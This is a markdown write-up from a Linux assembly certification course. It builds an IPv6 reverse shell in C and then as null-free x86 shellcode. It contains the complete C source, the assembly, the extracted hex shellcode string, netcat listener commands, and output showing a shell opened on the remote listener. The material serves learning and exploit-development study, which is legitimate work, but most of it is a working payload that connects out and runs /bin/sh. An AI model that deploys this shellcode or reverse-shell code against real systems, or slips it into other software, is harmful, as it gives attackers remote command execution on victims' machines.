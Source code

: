 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

All these examples have been tested on real public IPv6 address over the Internet.

# IPv6

Let's try to change the code in order to remotely connect to an IPv6 address:

```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET6, SOCK_STREAM, 0);

	struct sockaddr_in6 my_sockaddr;
	my_sockaddr.sin6_family = AF_INET6;
	inet_pton(AF_INET6, "xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx:xxxx", &(my_sockaddr.sin6_addr));
	my_sockaddr.sin6_port = htons(4444);
 	connect(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_socket, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

In a first terminal, we start the listener

```
$ nc -6 -lv 4444
```

In another terminal, let's compile and run the program in order to check it.

```
$ gcc reverse_shell_ipv6.c -o C-reverse6
$ ./C-reverse6 
```
Connection is done in our first terminal

```
$ nc -6 -lv 4444
Connection from 0.0.0.0 port 4444 [tcp/*] accepted
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

# ASM

Changes in the previous code are:
 * using a *sockaddr_in6* structure
 * using AF_INET6
 * using an IPv6 address

Regarding the previous IPv6 shellcode, *sockaddr_in6* structure and AF_INET6 are already known.

The only change will be to push a real IPv6 address. 

# Pushing 2a02:b0c0:1:e0:0:0:6ae:2002

The chosen address is 2a02:b0c0:1:e0:0:0:6ae:2002 (or 2a02:b0c0:1:e0::6ae:2002). This is not the real IPv6 address used for the tests.

It is important because there are null bytes in it. If we do not have to avoid null bytes, this address will be pushed like below:

```ASM
	push 0x0220ae06 ;6ae:2002
  	push 0x00000000 ;0:0
	push 0xe0000100 ; 0001:00e0
	push 0xc0b0022A ; 2a02:b0c0
```

The *push 0x00000000* can be replaced by a *push eax*

As it is not possible to push AL, let's play with registers in order to push *0001:00e0* on the stack:

```ASM
	mov bx, 0xe0e0
	mov bl, al ;al is 0x0
	push bx
  	mov bx, 0x0101
	mov bl, al ;al is 0x0
	push bx
```

## Final shellcode

```ASM
global _start

section .text

_start:
	; socketcall
	xor eax, eax
	mov al, 0x66
	xor ebx, ebx
	mov bl, 1

	xor ecx, ecx
	push ecx
	push ebx
	push 0xa
	mov ecx, esp
	int 0x80

	mov edi, eax

	;connect
	; IPv6: 2a02:b0c0:1:e0:0:0:6ae:2002
  	xor eax, eax
	push 0x0220ae06 ;6ae:2002
  	push eax ;0:0
	; 0001:00e0 -> e0000100
	mov bx, 0xe0e0
	mov bl, al ;al is 0x0
	push bx
  	mov bx, 0x0101
	mov bl, al ;al is 0x0
	push bx
	push 0xc0b0022A ; 2a02:b0c0
	push eax ; sin6_flowinfo
	push word 0x5c11
	push word 0xa
	mov edx, esp
 
	mov al, 0x66
	xor ebx, ebx
	mov bl, 3
	push 0x1c
	push edx
	push edi
	mov ecx, esp

	int 0x80

	;dup2 for loop
	xor ecx, ecx
	mov cl, 2

duploop:
	mov al, 0x3f	
	int 0x80
	dec ecx
	jns duploop	

	;execve
	mov al, 0xb
	xor ecx, ecx
	push ecx
	push 0x68732f6e
	push 0x69622f2f
	mov ebx, esp
	cdq
	int 0x80
```

## Compilation

Lets compile everything:

```
$ bash compile.sh reverse_shellcode_ipv6
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
$ bash get-shellcode.sh reverse_shellcode_ipv6
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x0a\x89\xe1\xcd\x80\x89\xc7\x31\xc0\x68\x06\xae\x20\x02\x50\x66\xbb\xe0\xe0\x88\xc3\x66\x53\x66\xbb\x01\x01\x88\xc3\x66\x53\x68\x2a\x02\xb0\xc0\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe2\xb0\x66\x31\xdb\xb3\x03\x6a\x1c\x52\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\xcd\x80"$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Then, on the remote server we start the listener:

```
$ nc -6 -l 4444
```

Shellcode is executed:
```
$ ./shellcode 
Shellcode Length:  104
```

And check if everything is working on the remote server:

```
$ nc -6 -l 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
```

As for the IPv4 shellcode, a Python script could be done in order to automize the port configuration.
